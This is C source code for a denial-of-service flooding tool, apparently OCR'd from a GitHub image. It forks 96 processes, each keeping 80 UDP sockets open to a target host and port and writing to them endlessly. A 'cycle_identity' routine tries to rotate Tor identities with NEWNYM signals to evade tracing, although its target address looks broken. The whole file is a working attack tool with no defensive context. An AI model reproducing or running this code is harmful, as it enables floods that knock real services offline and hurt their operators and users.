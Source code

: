 #include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
#include <netdb.h>
#include <signal.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int make_socket(char *host, char *port) {
	struct addrinfo hints, *servinfo, *p;
	int sock, r;
//	fprintf(stderr, "[Connecting -> %s:%s\n", host, port);
	memset(&hints, 0, sizeof(hints));
	hints.ai_family = AF_UNSPEC;
	hints.ai_socktype = SOCK_DGRAM;
	if((r=getaddrinfo(host, port, &hints, &servinfo))!=0) {
		fprintf(stderr, "getaddrinfo: %s\n", gai_strerror(r));
		exit(0);
	}
	for(p = servinfo; p != NULL; p = p->ai_next) {
		if((sock = socket(p->ai_family, p->ai_socktype, p->ai_protocol)) == -1) {
			continue;
		}
		if(connect(sock, p->ai_addr, p->ai_addrlen)==-1) {
			close(sock);
			continue;
		}
		break;
	}
	if(p == NULL) {
		if(servinfo)
		fprintf(stderr, "#TangoDown!!!!!\n");
		
	}
	if(servinfo)
		freeaddrinfo(servinfo);
	fprintf(stderr, "[Connected -> %s:%s]\n", host, port);
	return sock;
}

void broke(int s) {
	// do nothing
}

#define CONNECTIONS 80
#define THREADS 96
int i;
void attack(char *host, char *port, int id) {
	int sockets[CONNECTIONS];
	int x, g=1, r;
	for(x=0; x != CONNECTIONS; x++)
		sockets[x]=0;
	signal(SIGPIPE, &broke);
	while(x < 999999999) {
		for(x=0; x != CONNECTIONS; x++) {
			if(sockets[x] == 0)
				sockets[x] = make_socket(host, port);
			r=write(sockets[x], "\0", 1);
			if(r == -1) {
				close(sockets[x]);
				sockets[x] = make_socket(host, port);
			} else
//				fprintf(stderr, "Socket[%i->%i] -> %i\n", x, sockets[x], r);
			fprintf(stderr, "[%i: Voly Sent]\n", id);
		}
		fprintf(stderr, "[%i: Voly Sent]\n", id);
		
	}
}

void cycle_identity() {
	int r;
	int socket = make_socket("1.1.1.1", "53");
	write(socket, "AUTHENTICATE \"\"\n", 16);
	while(1) {
		r=write(socket, "signal NEWNYM\n\x00", 16);
		fprintf(stderr, "[%i: cycle_identity -> signal NEWNYM\n", r);
		usleep(300000);
	}
}

int main(int argc, char **argv) {
	int x;
	if(argc !=3)
		cycle_identity();
	for(x=0; x != THREADS; x++) {
		if(fork())
			attack(argv[1], argv[2], x);
		
	}
	getc(stdin);
	return 0;
}
